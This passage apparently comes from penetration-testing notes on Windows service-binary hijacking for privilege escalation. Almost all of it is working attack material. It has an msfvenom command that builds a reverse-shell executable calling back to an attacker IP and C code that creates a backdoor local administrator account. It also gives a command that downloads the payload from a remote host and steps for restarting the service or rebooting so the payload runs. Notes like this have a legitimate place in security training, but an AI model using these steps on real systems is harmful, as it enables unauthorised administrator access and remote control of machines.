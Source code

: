 |Mask|Permissions|
|---|---|
|F|Full access|
|M|Modify access|
|RX|Read and execute access|
|R|Read-only access|
|W|Write-only access|

**Step 2: Create Malicious Executable**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.2 LPORT=80 -f exe -o IUService.exe
```

We can then create a reverse shell payload with msfvenom or alternatively create an executable that creates a new local administrator:

```powershell
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

Compile and upload:

```powershell
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
iwr -uri <http://192.168.48.3/adduser.exe> -Outfile adduser.exe
```

Restart service:

```powershell
net stop mysql
net start mysql
Stop-Process mysql
Start-Process mysql
```

If service is “auto”/2 and you can restart server (SeShutdownPrivilege→Disabled) do it:

```
Get-CimInstance -ClassName win32_service | Select Name,StartMode | Where-Object {$_.Name -like 'mysql'}

whoami /priv

shutdown /r /t 0
```
#### Unquoted Service Path
